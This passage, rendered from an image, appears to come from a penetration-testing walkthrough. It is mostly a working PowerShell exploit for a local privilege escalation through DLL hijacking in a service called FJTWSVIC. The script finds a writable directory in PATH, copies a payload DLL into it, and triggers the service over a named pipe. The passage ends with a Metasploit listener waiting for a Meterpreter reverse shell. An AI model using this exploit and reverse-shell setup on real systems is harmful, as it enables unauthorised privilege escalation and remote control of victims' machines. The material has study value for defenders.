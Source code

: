 ```
$Path = (Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment" -Name "PATH").path
$Path -Split ";" | % {
    try {
        [IO.File]::OpenWrite("$_\x.txt").close()
        Remove-Item "$_\x.txt"
        $WritableDirectory = $_
    } catch {}
}

if ($WritableDirectory -eq $null) {
    Write-Host "No writable directories in PATH, FJTWSVIC is not exploitable"
    Exit 1
}

Write-Host "Writable location found, copying payload to $WritableDirectory"
Copy-Item "$PayloadFile" "$WritableDirectory\UninOldIS.dll"

Write-Host "Payload copied, triggering..."
$client = New-Object System.IO.Pipes.NamedPipeClientStream(".", "FjtwMkic_Fjicube_32", [System.IO.Pipes.PipeDirection]::InOut, [System.IO.Pipes.PipeOptions]::None, [System.Security.Principal.TokenImpersonationLevel]::Impersonation)
$reader = $null
$writer = $null
try {
    $client.Connect()
    $reader = New-Object System.IO.StreamReader($client)
    $writer = New-Object System.IO.StreamWriter($client)
    $writer.AutoFlush = $true
    $writer.Write("ChangeUninstallString")
    $reader.ReadLine()
} finally {
    $client.Dispose()
}

Write-Host "Payload triggered"
```

Now on our msf we start a listener

```
msf6 exploit(multi/handler) > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.88:80 

```
